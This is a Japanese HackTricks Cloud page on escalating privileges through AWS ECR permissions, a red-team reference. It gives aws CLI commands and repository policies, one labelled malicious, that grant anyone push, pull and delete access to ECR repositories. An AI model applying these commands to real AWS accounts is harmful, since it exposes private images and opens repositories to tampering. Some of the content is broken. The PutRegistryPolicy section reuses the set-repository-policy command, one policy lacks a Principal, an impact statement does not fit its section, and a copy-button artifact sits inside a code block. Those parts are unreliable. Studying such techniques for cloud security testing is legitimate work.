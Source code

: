 # AWS - ECR 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または [**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で **フォロー**する。
* **ハッキングトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** と **`ecr:BatchGetImage`** を持つ攻撃者は、ECR にログインしてイメージをダウンロードできます。

イメージのダウンロード方法についての詳細はこちら：

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**潜在的な影響:** トラフィック内の機密情報を傍受することで間接的な特権昇格が可能です。

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

これらのすべての権限を持つ攻撃者は、ECR にログインしてイメージをアップロードできます。これは、これらのイメージが使用されている他の環境への特権昇格に役立ちます。

新しいイメージをアップロード/更新する方法を学ぶには、次を確認してください：

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

前のセクションと同様ですが、パブリックリポジトリ向けです。

### `ecr:SetRepositoryPolicy`

この権限を持つ攻撃者は、**リポジトリポリシー**を変更して、自分自身（または誰でも）に **読み取り/書き込みアクセス**を付与できます。\
例えば、この例では、誰にでも読み取りアクセスが与えられています。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json`の内容：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ecr:GetDownloadUrlForLayer",
                "ecr:BatchGetImage"
            ],
            "Resource": "*"
        }
    ]
}
```
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

前のセクションと同様ですが、パブリックリポジトリ向けです。\
攻撃者は、ECR Publicリポジトリのリポジトリポリシーを変更して、不正なパブリックアクセスを許可したり、特権をエスカレートしたりすることができます。

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**潜在的影響**: ECR Publicリポジトリへの不正なパブリックアクセスが可能になり、任意のユーザーがイメージをプッシュ、プル、または削除できるようになります。

### `ecr:PutRegistryPolicy`

この権限を持つ攻撃者は、**レジストリポリシー**を変更して、自分自身、自分のアカウント（または誰でも）に**読み書きアクセス**を付与することができます。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする
* **HackTricks** および **HackTricks Cloud** の github リポジトリに PR を提出して、あなたのハッキングテクニックを共有する

</details>
